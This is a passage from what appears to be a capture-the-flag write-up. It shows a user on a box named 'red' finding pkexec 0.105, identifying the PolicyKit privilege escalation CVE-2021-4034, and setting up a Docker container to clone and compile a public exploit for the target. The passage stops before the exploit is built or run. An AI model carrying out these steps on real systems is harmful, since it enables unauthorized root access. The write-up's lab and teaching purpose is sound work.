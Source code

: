 Check the version

```bash
red@red:~$ cd .git
cd .git
red@red:~/.git$ ./pkexec
./pkexec
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
red@red:~/.git$ ./pkexec --version
./pkexec --version
pkexec version 0.105
```

Found [PolicyKit](https://packetstormsecurity.com/files/165739/PolicyKit-1-0.105-31-Privilege-Escalation.html), but unfortunately target does not have gcc installed

```bash
red@red:~/.git$ gcc
gcc

Command 'gcc' not found, but can be installed with:

apt install gcc

Please ask your administrator.
```


### Compile policykit exploit in docker image (CVE-2021-4034)

So I pulled the docker image of `Ubuntu 20.04.4 LTS` on my host based on target's environment to compile it

```bash
red@red:~/.git$ cat /etc/*release
cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.4 LTS"
```

```bash
docker run -it --entrypoint "/bin/bash" -v H:\VM-Share\Public:/mnt/share ubuntu:20.04
```

```bash
root@97986b28b0c7:/# apt update && apt install git build-essential -y
root@97986b28b0c7:/# cd /mnt/share
root@97986b28b0c7:/mnt/share# git clone https://github.com/ryaagard/CVE-2021-4034
root@97986b28b0c7:/mnt/share# cd CVE-2021-4034/
root@97986b28b0c7:/mnt/share/CVE-2021-4034#
```
